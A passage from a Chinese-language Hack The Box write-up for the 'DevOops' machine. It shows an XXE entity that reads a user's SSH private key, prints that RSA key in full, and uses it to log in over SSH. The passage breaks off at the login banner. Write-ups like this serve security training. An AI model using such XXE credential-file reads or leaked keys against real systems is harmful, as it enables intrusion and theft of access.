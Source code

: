 sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
```

三个有home目录的用户
root,git,roosa


拿到roosa的ssh证书
```
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >
```

返回：
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```


拿到foothold和user.txt

```
┌──(root💀kali)-[~/htb/DevOops]
└─# ssh -i id_rsa roosa@10.10.10.91                             
The authenticity of host '10.10.10.91 (10.10.10.91)' can't be established.
RSA key fingerprint is SHA256:G2IZC851DvV/6n2//JapxYw9G6jPstURBoZbmxIk954.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.91' (RSA) to the list of known hosts.
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)
